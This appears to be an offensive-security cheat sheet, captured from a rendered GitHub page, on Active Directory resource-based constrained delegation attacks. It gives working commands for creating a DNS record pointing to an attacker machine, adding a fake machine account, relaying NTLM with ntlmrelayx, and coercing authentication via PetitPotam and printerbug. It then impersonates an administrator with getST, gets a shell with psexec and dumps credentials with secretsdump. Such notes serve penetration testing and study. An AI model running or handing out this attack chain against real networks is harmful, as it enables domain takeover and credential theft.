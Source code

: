 ````
$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
import-module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Start NTLMRelay
```
sudo ntlmrelayx.py -t ldap://<DC IP> --http-port 8080 --delegate-access --escalate-user FAKE01$
```

#### Trigger target to authenticate to attacker machine
- Use hostname we created in the DNS record
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@8080/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@8080/a
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound). Maybe another command to check if user is admin on a machine? Is that possible? We should check!
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

### Change lockscreen
- Requirements:
  - Low priv shell on a machine
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/
````